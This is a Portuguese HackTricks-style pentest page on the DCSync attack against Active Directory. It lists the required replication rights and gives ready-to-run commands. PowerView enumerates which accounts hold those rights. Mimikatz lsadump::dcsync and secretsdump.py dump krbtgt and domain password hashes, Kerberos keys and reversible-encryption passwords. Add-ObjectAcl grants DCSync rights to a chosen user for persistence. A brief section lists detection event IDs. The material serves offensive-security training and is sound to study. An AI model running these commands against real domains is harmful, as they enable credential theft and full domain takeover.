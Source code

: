 # DCSync

{{#include ../../banners/hacktricks-training.md}}

## DCSync

A permissão **DCSync** implica ter essas permissões sobre o domínio: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** e **Replicating Directory Changes In Filtered Set**.

**Notas Importantes sobre DCSync:**

- O **ataque DCSync simula o comportamento de um Controlador de Domínio e solicita que outros Controladores de Domínio repliquem informações** usando o Protocolo Remoto de Serviço de Replicação de Diretório (MS-DRSR). Como o MS-DRSR é uma função válida e necessária do Active Directory, não pode ser desativado ou desligado.
- Por padrão, apenas os grupos **Domain Admins, Enterprise Admins, Administrators e Domain Controllers** têm os privilégios necessários.
- Se as senhas de qualquer conta forem armazenadas com criptografia reversível, uma opção está disponível no Mimikatz para retornar a senha em texto claro.

### Enumeração

Verifique quem tem essas permissões usando `powerview`:
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```
### Exploit Localmente
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
### Explorar Remotamente
```powershell
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```
`-just-dc` gera 3 arquivos:

- um com os **hashes NTLM**
- um com as **chaves Kerberos**
- um com senhas em texto claro do NTDS para quaisquer contas configuradas com [**criptografia reversível**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) habilitada. Você pode obter usuários com criptografia reversível com

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

### Persistência

Se você for um administrador de domínio, pode conceder essas permissões a qualquer usuário com a ajuda do `powerview`:
```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```
Então, você pode **verificar se o usuário foi corretamente atribuído** os 3 privilégios procurando-os na saída de (você deve conseguir ver os nomes dos privilégios dentro do campo "ObjectType"):
```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```
### Mitigação

- Security Event ID 4662 (Audit Policy for object must be enabled) – Uma operação foi realizada em um objeto
- Security Event ID 5136 (Audit Policy for object must be enabled) – Um objeto de serviço de diretório foi modificado
- Security Event ID 4670 (Audit Policy for object must be enabled) – As permissões em um objeto foram alteradas
- AD ACL Scanner - Crie e compare relatórios de ACLs. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## Referências

- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
- [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

{{#include ../../banners/hacktricks-training.md}}
